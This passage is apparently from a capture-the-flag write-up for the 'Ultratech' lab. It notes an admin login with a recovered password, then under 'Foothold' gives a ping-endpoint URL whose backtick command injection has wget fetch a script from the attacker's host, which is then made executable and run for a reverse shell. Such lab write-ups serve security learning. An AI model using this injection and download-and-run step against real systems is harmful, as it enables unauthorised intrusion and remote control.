 ![](assets/Ultratech_assets/Pasted%20image%2020230522163928.png)

- when we attempt to login, we see that we have gotten access and we also get a message
- 
![](assets/Ultratech_assets/Pasted%20image%2020230522165052.png)

- We also get the password for admin is mrsheafy 

![](assets/Ultratech_assets/Pasted%20image%2020230522165144.png)

- when we login with this credential, we also get the same information and the same access
## Foothold
- so we want to get a reverse shell using this URL
```
http://10.10.186.176:8081/ping?ip=-c+1+10.10.186.176+`wget+http://10.8.80.123/script.sh`
```
- we `chmod 777 script.sh` for the script and then execute it 
